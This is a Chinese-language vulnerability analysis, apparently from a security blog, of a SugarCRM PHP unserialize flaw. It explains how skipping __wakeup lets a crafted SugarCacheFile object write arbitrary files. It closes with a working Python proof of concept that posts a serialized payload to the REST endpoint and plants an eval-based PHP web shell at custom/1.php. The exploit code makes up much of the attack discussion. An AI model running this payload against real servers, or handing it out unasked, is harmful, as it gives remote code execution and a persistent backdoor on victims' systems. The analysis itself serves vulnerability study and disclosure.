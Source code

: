 ```php?start_inline=1
function sugar_file_put_contents($filename, $data, $flags=null, $context=null){
	//check to see if the file exists, if not then use touch to create it.
	if(!file_exists($filename)){
		sugar_touch($filename);
	}

	if ( !is_writable($filename) ) {
	    $GLOBALS['log']->error("File $filename cannot be written to");
	    return false;
	}

	if(empty($flags)) {
		return file_put_contents($filename, $data);
	} elseif(empty($context)) {
		return file_put_contents($filename, $data, $flags);
	} else{
		return file_put_contents($filename, $data, $flags, $context);
	}
}
```

函数并没有对文件内容或者扩展名等进行限制，虽然参数`$data`是`serialize($this->_localStore)`，也就是序列化后的数据，但是我们可以设置`$_this->_localStore`为一个数组，把payload作为数组中的一个值，就可以完整保存payload。

这样如果我们可以传入一个`SugarCacheFile`对象并设置其属性的值，我们就可以写入文件。

然而不巧的是，`__wakeup`会在`__destroy`之前调用，并且我们可以看到在`__wakeup`中对所有对象属性进行了清除。

那么该如何跨过这个限制呢？

想必大家都已经知道了，就是利用我们上面说的PHP的漏洞来跳过`__wakeup`的执行。

最后，整个漏洞的流程如下：

```
$_REQUEST['rest_data'] -> sugar_unserialize -> __destruct -> sugar_file_put_contents -> evil_file
```

PoC Demo如下：

```python
import requests as req

url = 'http://127.0.0.1:8788/service/v4/rest.php'

data = {
    'method': 'login',
    'input_type': 'Serialize',
    'rest_data': 'O:+14:"SugarCacheFile":23:{S:17:"\\00*\\00_cacheFileName";s:15:"../custom/1.php";S:16:"\\00*\\00_cacheChanged";b:1;S:14:"\\00*\\00_localStore";a:1:{i:0;s:29:"<?php eval($_POST[\'HHH\']); ?>";}}',
}

req.post(url, data=data)
```
